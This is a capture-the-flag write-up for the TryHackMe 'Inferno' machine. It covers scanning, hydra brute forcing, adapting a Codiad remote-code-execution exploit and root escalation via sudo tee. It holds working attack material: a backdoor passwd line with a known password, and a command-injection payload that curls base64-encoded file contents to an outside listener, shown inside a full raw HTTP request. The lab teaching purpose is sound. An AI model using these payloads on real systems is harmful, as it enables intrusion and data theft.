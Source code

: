 # Inferno

https://tryhackme.com/room/inferno

"Real Life machine vs CTF. The machine is designed to be real-life and is perfect for newbies starting out in penetration testing" <- *not too sure about this.*

Enum for this machine was frustrating, as there were dozens of ports open. In fact, I usually use `nmap -sS -sV -vv` for recon but it took over an hour here to scan the whole box. Much better to use rustscan, which on the tryhackme machine can be run with docker as so:

  `docker run -it --rm --name rustscan rustscan/rustscan:latest -a 10.10.36.88 -- -sV`
  
In any event, only the two standard ports were actually open, 22 and 80. On 80 was a simple website with a quote from dante's inferno, and with a bit of enum via `gobuster`, a sub directory `/inferno` that was protected by basic auth.

No further enumeration returned anything else, not even a username - typically I don't like to randomly brute force username's AND passwords, but that was the next step here. Long story short, going with a short list of usernames or just random guessing might get you to running `hydra` like:

  `hydra -l admin -P /usr/share/wordlists/rockyou.txt -f 10.10.105.168 -m /inferno http-get`
  
Which eventually revealed the password for admin.

On `/inferno` was an installation of a web ide called 'Codiad'. It showed a file directory under inferno, the tool itself. However, no paths were writable: even though Codiad supports creating or uploading files, trying to do so would fail.

The tool itself is out of support, and there are some CVEs against it unresolved. A quick DDG found https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit, but it wouldn't work as is - the tool was not setup to support basic auth.

In order to get it functioning, I modded the `exploit.py` file so whenever it used session.get or session.post, it would specify basic auth headers. E.g.:

  ```python
  response = session.post(url, data=data, verify=False)
  ```
  
  Became
  
  ```python
  headers = {
    "Authorization": "Basic etcetc"
  }
  response = session.post(url, data=data, headers=headers, verify=False)
  ```
 
Once I got a shell, I noted that it would periodically close, probably due to a cronjob somewhere. It looked like every minute. I was able to work with this however.

> **NOTE**: I go into detail on how this exploit works and alternatives at the end.

In the home directory was dante's folder, with the local.txt file being unreadable. I ran a `ls -laR` which found, under `/Downloads`, a `.download.dat`. In very CTF fashion (not real life pentest at all) this contained hexadecimal characters which I ran through cyberchef to reveal `dante`'s password.

At this point I dropped the exploit shell and just ssh'd in, getting the first flag.

Getting to root was easy: `sudo -l` revealed the user could run `/usr/bin/tee` as root without a password (even though I had the password). Tee sends its input to two outputs, and can both write and append. Being able to use it as root means I could use it to append to the `passwd` file, and I used a handy entry I keep around for just such an occasion which i put into a file called pass: `cat pass | sudo /usr/bin/tee -a /etc/passwd` with pass containing: `user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash` (which has password `pass123`).

Once done, I just `su user3` with `pass123` to escalate to root. The final proof.txt was in /root. Easy.

## The codiad exploit.

If you're not a fan of scripts from random github repos, or want to exploit this yourself, heres how. Its actually not too hard, based on a blatant RCE, so you could get that `.download.dat` purely with something like burp, if you wished.

The vulnerable code is in the filemanager class, which you can browse via the codiad interface, specifically the files `/components/filemanager/controller.php` and `/components/filemanager/class.filemanager.php`. The first takes the action as a query parameter then uses the appropriate method from the second, in this case the search function.

The vulnerability is on line 243 of the filemanager class, within the search function:

  `$output = shell_exec('find -L ' . $this->path . ' -iregex  ".*' . $this->search_file_type  . '" -type f | xargs grep -i -I -n -R -H "' . $input . '"');`

Here, search filetype is one of the body parameters, along with the search term, and you can see its being concatted to a os command without escaping. So its basic command injection.

To exploit this is a bit tricky, since its blind: you can't get the response back through the call, at least as far as I could tell. Instead, you can use a trick: fire up a webserver on an accessible machine, e.g, via `python3 -m http.server 4444`.

Then, you can exfiltrate data, by passing a command like `cat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T`, which will read that download.dat file, base 64 encode it, then pass it to a curl request to your webserver (where you will see the request arrive with a big payload in the querystring).

So, back to the vulnerable component: to call this, and do the above, here is the raw http request. Its basically a post to that controller endpoint, with the basic auth header, the codiad cookie (so you will need to log in at least once), and the (unencoded!) body:

```http
POST /inferno/components/filemanager/controller.php?type=1&action=search&path=/var/www/html/inferno HTTP/1.1
Host: 10.10.71.248
User-Agent: python-requests/2.23.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Authorization: Basic YWRtaW46ZGFudGUx
Cookie: 99300f2078c94e495d72b82a732ea6db=gu0fv4ear8rsifistrnrcnes1o
Content-Length: 140

search_string=Hacker&search_file_type="%0Acat /home/dante/Downloads/.download.dat | base64 -w0 | xargs -I T curl 10.10.126.249:4444/?x=T %23
```
